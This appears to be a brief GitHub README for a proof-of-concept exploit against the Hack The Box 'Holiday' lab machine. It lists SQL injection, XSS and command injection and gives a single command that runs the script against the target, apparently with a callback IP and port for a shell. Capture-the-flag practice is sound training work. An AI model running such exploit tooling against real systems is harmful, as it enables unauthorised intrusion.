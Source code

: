 # Holiday
[Holiday Machine](https://www.hackthebox.com/machines/holiday)

Identified Vulnerability:
- SQL Injection
- XSS
- Command Injection

```
python3 poc.py -t holiday.htb:8000 -i 10.10.14.9 -po 5555
```
